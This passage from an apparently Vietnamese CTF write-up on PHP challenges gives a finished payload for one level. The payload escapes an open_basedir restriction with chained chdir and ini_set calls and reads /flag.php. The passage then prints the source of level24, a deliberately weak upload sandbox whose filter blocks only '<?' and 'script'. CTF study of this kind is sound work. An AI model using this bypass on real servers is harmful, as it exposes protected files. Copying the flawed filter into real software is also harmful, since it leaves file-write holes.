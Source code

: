 Là `tmp`, hoàn thiện payload thôi:

```php
chdir('tmp'); ini_set('open_basedir','..'); chdir('..'); chdir('..'); chdir('..'); ini_set('open_basedir','/'); readfile('/flag.php');
```

![image](https://user-images.githubusercontent.com/75429369/183097086-9a69eb04-25af-4e65-b562-aa73a7853dbf.png)

# level24

Đề bài cho ta tạo file bằng cách nhập tên file rồi sau đó cho điều chỉnh content của file, cuối cùng là lưu vào `/upload/<cái gì đấy>/<tên file>`

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

session_start();

include 'clean_up.php';

/* periodic cleanup */
foreach (glob("./uploads/*") as $file) {
    if (is_file($file)) {
        unlink($file);
    } else {
        if (time() - filemtime($file) >= 60 * 60 * 24 * 7) {
            Delete($file);
        }
    }
}

$upload_dir = sprintf("./uploads/%s/", session_id());
@mkdir($upload_dir, 0755, true);

/* sandboxing ! */
chdir($upload_dir);
ini_set('open_basedir', '.');

$p = "list";
$data = "";
$filename = "";

if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}
?>
```
